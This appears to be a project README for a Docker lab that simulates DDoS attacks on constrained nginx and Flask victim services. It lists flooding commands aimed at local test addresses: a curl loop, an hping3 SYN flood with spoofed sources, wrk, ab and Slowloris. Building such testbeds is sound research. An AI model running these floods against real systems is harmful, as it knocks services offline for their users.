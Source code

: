 # Setting up a DDoS attack

## TODO
- [x] Set up a victim server with nginx on a different network
- [x] Constraints on the victim server (Ended up creating different types of services)
- [ ] Evaluation metrics for inaccessibility
  - [ ] Scenario: I am another service in the custom network and I want to access the victim's endpoint. How would the victim respond when overloaded with requests?
- [x] See if it is indeed valid to test that on a Docker network -> There are people that have done it, even on the same network, but I haven't looked thorougly.
- [/] Setup tools for monitoring the traffic and also log it (Found the tools but did not set them up)
- [ ] See botnet options
- [ ] Review default configurations for Cowrie (potentially remove RSA options for simplicity)
- [ ] Considerations on the hardware constraints of the botnet actors
- [ ] Suggestions here...

## Reverse-proxy (reverse-proxy)

In order to create a more realistic environment, we create two subnetworks, one for the victim (victim-network) and one for the botnet (chn-network). To redirect network from one network to the other, we configure another container that plays the role of a reverse-proxy (passthrough) that gets the traffic to the victim service.

Create network `docker network create victim-network` before docker compose on the reverse-proxy.

## Types of Services

### Nginx with Limited Resources Serving a Static Webpage (static)
- Simple nginx configuration with reduced buffer sizes and a limited number of worker processes to simulate a constrained server environment.

### Flask App with Gunicorn (dynamic)
- Basic Flask app for serving dynamic content, deployed with Gunicorn and configured to use a restricted number of workers (e.g., 1 to 4).

### Baseline Flask App (baseline)
- Basic Flask app serving dynamic content without Gunicorn or reverse proxy integration, representing an unoptimized setup.

## Tools to Perform a DDoS/Stress Test

## Simple curl script
Just a dummy script to imitate a DDoS.
```sh
for i in {1..100}; do
    (
        while true; do
            curl -s http://0.0.0.0:5000/ > /dev/null
        done
    ) &
done
```

### hping3
**Description:** A command-line oriented TCP/IP packet assembler and analyzer, useful for simulating various types of attacks by crafting and flooding packets.

**Example:**
Install using your package manager:
```sh
sudo apt install hping3
```

Command to simulate a SYN flood:
```sh
sudo hping3 -S -d 10000 172.19.0.2 -k --rand-source --flood -p 5000
```
- `-S`: Sends SYN packets.
- `-d 10000`: Packet size (10,000 bytes).
- `172.19.0.2`: Target IP address.
- `-k`: Keeps the connection alive.
- `--rand-source`: Randomizes the source IP address (simulates a distributed attack).
- `--flood`: Sends packets as quickly as possible.
- `-p 5000`: Target port.

### wrk
**Description:** A modern HTTP benchmarking tool capable of generating high loads. Useful for testing endpoint response times under stress.

**Example:**
Install using your package manager:
```sh
sudo apt install wrk
```

Command to simulate traffic:
```sh
wrk -t40 -c500 -d300s http://localhost:5000
```
- `-t40`: Number of threads.
- `-c500`: Number of concurrent connections.
- `-d300s`: Duration of the test (300 seconds).
- `http://localhost:5000`: Target endpoint.

### Apache Benchmark (ab)
**Description:** A simple tool for benchmarking HTTP requests, particularly useful for testing server concurrency and handling capacity.

**Example:**
Install using your package manager:
```sh
sudo apt install apache2-utils
```

Command for benchmarking:
```sh
ab -l -n 1000000 -c 1000 -k http://0.0.0.0:5000/
```
- `-l`: Do not exit on socket errors.
- `-n 1000000`: Total number of requests to perform.
- `-c 1000`: Number of concurrent requests.
- `-k`: Enable HTTP Keep-Alive.
- `http://0.0.0.0:5000/`: Target URL.

### Slowloris
**Description:** A tool for performing layer 7 (application layer) attacks by opening many simultaneous connections and keeping them alive, effectively exhausting the target server’s resources.

**Usage:**
Install using Python pip:
```sh
pip install slowloris
```

Command for launching the attack:
```sh
slowloris 172.19.0.2 -p 5000 -s 500
```
- `172.19.0.2`: Target IP address.
- `-p 5000`: Target port.
- `-s 500`: Number of simultaneous connections.

## Observations

- I had to run multiple `hping3` or combinations of `hping3` with `ab` to make the `dynamic` version potentially slower, yet it was still available after a while.
- Keep-alive connections seem to be more effective (makes sense).
- Needs more experimentation.